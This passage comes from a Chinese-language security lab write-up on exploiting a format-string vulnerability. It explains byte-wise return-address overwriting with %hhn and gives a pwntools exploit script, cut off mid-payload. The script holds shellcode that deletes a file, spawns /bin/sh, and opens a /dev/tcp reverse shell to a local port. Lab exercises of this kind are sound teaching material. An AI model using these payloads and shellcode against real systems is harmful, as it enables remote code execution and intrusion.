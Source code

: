 获取到两个地址后，关键就是如何构造payload。

为减少terminal的输出字符，我采用单字节覆盖的方法，使用`%hhn`逐字节将ret_addr的内容覆盖为shellcode_addr。

需要注意的是，尽管可能前面输出的字节数大于当前要覆盖的字节，由于这里是单字节，大于0xff的部分均会由于溢出被舍去，故依次计算即可。

结果如下，可以看到命令`/bin/bash -c "/bin/rm /tmp/myfile"`执行成功。

![task6-success](../images/lab5-task6-success.png)

## Task 7: Getting a Reverse Shell

脚本如下

```python
from sys import *
from pwn import *

context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','sh','-c']

io = remote("127.0.0.1",9090,typ='udp')
#io = process('./vul')

# /bin/bash -c "/bin/rm /tmp/myfile"
#shellcode = "1\xc0Phbashh////h/bin\x89\xe31\xc0Ph-ccc\x89\xe01\xd2Rhile h/myfh/tmph/rm h/bin\x89\xe21\xc9QRPS\x89\xe11\xd21\xc0\xb0\x0b\xcd\x80"

# execve("/bin/sh",0,0)
#shellcode ="1\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\x99\xb0\x0b\xcd\x80\x00"

# /bin/bash -c "/bin/bash -i > /dev/tcp/127.0.0.1/7070 0<&1 2>&1"
shellcode = "1\xc0Phbashh////h/bin\x89\xe31\xc0Ph-ccc\x89\xe01\xd2Rh2>&1h<&1 h70 0h1/70h0.0.h127.htcp/hdev/h > /hh -ih/bash/bin\x89\xe21\xc9QRPS\x89\xe11\xd21\xc0\xb0\x0b\xcd\x80"
#print len(shellcode)

#shellcode_addr = 0xbfffe7c0 + 0x40
shellcode_addr = 0xbfffe820

# 1. rewrite ret_addr to shellcode_addr
#ret_addr = 0xbfffe79c
ret_addr = 0xbfffe79c

payload = p32(ret_addr) 
payload += p32(ret_addr+1)
payload += p32(ret_addr+2)
payload += p32(ret_addr+3)
payload += "%{}c".format(((shellcode_addr&0xff)-16+256)&0xff) 
```